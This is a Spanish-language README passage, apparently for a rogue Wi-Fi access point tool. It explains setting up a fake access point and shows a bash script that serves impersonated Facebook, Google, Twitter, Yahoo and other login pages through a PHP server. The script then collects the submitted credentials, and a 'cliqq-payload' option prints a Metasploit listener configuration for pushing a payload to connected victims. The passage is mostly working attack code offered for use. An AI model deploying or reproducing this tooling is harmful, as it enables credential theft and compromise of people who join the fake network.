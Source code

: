 **Consideración**: A nivel de código, la tarjeta de red que ha sido configurada por defecto tiene nombre `wlan0`. Es importante tener en cuenta que esto no siempre es así, las tarjetas de red pueden referenciarse por nombres distintos y no siempre se llaman igual. En caso de ser distinto, es necesario cambiar su nombre desde el propio código.

En esta fase se nos solicitan varias cosas:

* Nombre del punto de acceso.
* Canal en el que queremos que el punto de acceso opere.
* Interfaz de red a utilizar (por defecto **wlan0**)

Una vez rellenados estos puntos, se desplegará un AP con las configuraciones especificadas, asignado la dirección IP '**192.168.1.1**' a nuestra interfaz de red en modo monitor. 

Ya con estas especificaciones seteadas, se procede a la selección de plantilla:

```go
	# Array de plantillas
	plantillas=(facebook-login google-login starbucks-login twitter-login yahoo-login cliqq-payload optimumwifi all_in_one)

	tput cnorm; echo -ne "\n${blueColour}[Información]${endColour}${yellowColour} Si deseas usar tu propia plantilla, crea otro directorio en el proyecto y especifica su nombre :)${endColour}\n\n"
	echo -ne "${yellowColour}[*]${endColour}${grayColour} Plantilla a utilizar (facebook-login, google-login, starbucks-login, twitter-login, yahoo-login, cliqq-payload, all_in_one, optimumwifi):${endColour} " && read template

	check_plantillas=0; for plantilla in "${plantillas[@]}"; do
		if [ "$plantilla" == "$template" ]; then
			check_plantillas=1
		fi
	done

	if [ "$template" == "cliqq-payload" ]; then
		check_plantillas=2
	fi

	if [ $check_plantillas -eq 1 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
	elif [ $check_plantillas -eq 2 ]; then
		tput civis; pushd $template > /dev/null 2>&1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor PHP...${endColour}"
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Configura desde otra consola un Listener en Metasploit de la siguiente forma:${endColour}"
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		cat msfconsole.rc
		for i in $(seq 1 45); do echo -ne "${redColour}-"; done && echo -e "${endColour}"
		echo -e "\n${redColour}[!] Presiona <Enter> para continuar${endColour}" && read
		popd > /dev/null 2>&1; getCredentials
	else
		tput civis; echo -e "\n${yellowColour}[*]${endColour}${grayColour} Usando plantilla personalizada...${endColour}"; sleep 1
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Montando servidor web en${endColour}${blueColour} $template${endColour}\n"; sleep 1
		pushd $template > /dev/null 2>&1
		php -S 192.168.1.1:80 > /dev/null 2>&1 &
		sleep 2
		popd > /dev/null 2>&1; getCredentials
```